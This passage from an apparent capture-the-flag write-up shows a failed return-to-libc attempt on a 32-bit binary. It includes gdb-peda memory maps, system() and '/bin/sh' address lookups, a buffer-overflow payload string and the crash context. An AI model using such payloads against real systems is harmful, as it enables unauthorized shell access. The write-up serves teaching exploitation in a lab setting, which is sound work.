    gdb-peda$ vmmap 
    Start      End        Perm      Name
    ...[snip]...
    0xb7e1a000 0xb7e54000 r-xp      /lib/i386-linux-gnu/libc-2.23.so
    0xb7e54000 0xb7e55000 r--p      /lib/i386-linux-gnu/libc-2.23.so
    0xb7e55000 0xb7fca000 r-xp      /lib/i386-linux-gnu/libc-2.23.so
    0xb7fca000 0xb7fcc000 r--p      /lib/i386-linux-gnu/libc-2.23.so
    0xb7fcc000 0xb7fcd000 rw-p      /lib/i386-linux-gnu/libc-2.23.so
    ...[snip]...
    

This assembly effectively takes the 0x1000 bytes in libc and makes it read
only, no execute or write. When I was first here, I didn’t really understand
why this was being done.

### Ret2Libc Fail

While I’ve already shown I can get a shell by making the stack executable and
then jumping to my shellcode, my initial instinct was to use a return to libc
attack. I walked through a lot of detail as to how this works in
[Frolic](/2019/03/23/htb-frolic.html#background). Because I don’t have ASLR to
contend with, the addresses in libc are static. I can find them in `gdb`:

    
    
    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xb7e54da0 <__libc_system>
    
    gdb-peda$ searchmem "/bin/sh"
    Searching for '/bin/sh' in: None ranges
    Found 1 results, display max 1 items:
    libc : 0xb7f759ab ("/bin/sh")   
    

While you may have already figured out how this relates to the assembly above,
I didn’t notice yet, and kept going. With this information, I generated a
stage three payoad:

    
    
    "A"*76 + "\xa0\x4d\xe5\xb7EXIT\xab\x59\xf7\xb7"
    

But when I ran the exploit, it just crashed. I went with the manual method I
used above to step through in gdb. When it crashed, the context was:

    
    
    [----------------------------------registers-----------------------------------]
    EAX: 0x0 
    EBX: 0x41414141 ('AAAA')
    ECX: 0xb7fccbcc --> 0x21000 
    EDX: 0x0 
    ESI: 0xb7fcc000 --> 0x1b1db0 
    EDI: 0xb7fcc000 --> 0x1b1db0 
    EBP: 0x41414141 ('AAAA')
    ESP: 0xbffff610 ("JUNK\253Y\367\267", 'B' <repeats 12 times>, "\375!\003\001\375!\003\001<\016")
    EIP: 0xb7e54da0 --> 0x8b0cec83
    EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0xb7e54d97 <cancel_handler+231>:     pop    ebp
       0xb7e54d98 <cancel_handler+232>:     ret    
       0xb7e54d99:                          lea    esi,[esi+eiz*1+0x0]
    => 0xb7e54da0 <__libc_system>:          sub    esp,0xc
       0xb7e54da3 <__libc_system+3>:        mov    eax,DWORD PTR [esp+0x10]
       0xb7e54da7 <__libc_system+7>:        call   0xb7f39b0d <__x86.get_pc_thunk.dx>
       0xb7e54dac <__libc_system+12>:       add    edx,0x177254
       0xb7e54db2 <__libc_system+18>:       test   eax,eax
    [------------------------------------stack-------------------------------------]
    0000| 0xbffff610 ("JUNK\253Y\367\267", 'B' <repeats 12 times>, "\375!\003\001\375!\003\001<\016")
    0004| 0xbffff614 --> 0xb7f759ab ("/bin/sh")